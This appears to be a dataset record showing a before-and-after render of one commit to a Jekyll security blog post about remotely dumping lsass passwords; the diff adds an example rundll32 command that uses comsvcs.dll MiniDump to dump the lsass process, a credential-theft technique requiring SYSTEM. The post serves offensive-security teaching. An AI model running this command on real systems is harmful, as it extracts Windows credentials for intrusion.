

Before and after one commit to Hackndo/en.hackndo.github.io, a Jekyll site: the page built from _posts/2019-11-29-remote-lass-dump-passwords.md, in a window 1280 px wide and 900 px high, scrolled down 13482 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Add example

````diff
--- a/_posts/2019-11-29-remote-lass-dump-passwords.md
+++ b/_posts/2019-11-29-remote-lass-dump-passwords.md
@@ -405,6 +405,10 @@
 
 Thanks to this function, we can use **comsvcs.dll** to dump lsass process instead of uploading procdump and executing it.
 
+```
+rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump "<lsass pid> lsass.dmp full"
+```
+
 We just have to keep in mind that this technique can only be executed as **SYSTEM**.
 
 ## CrackMapExec module
````
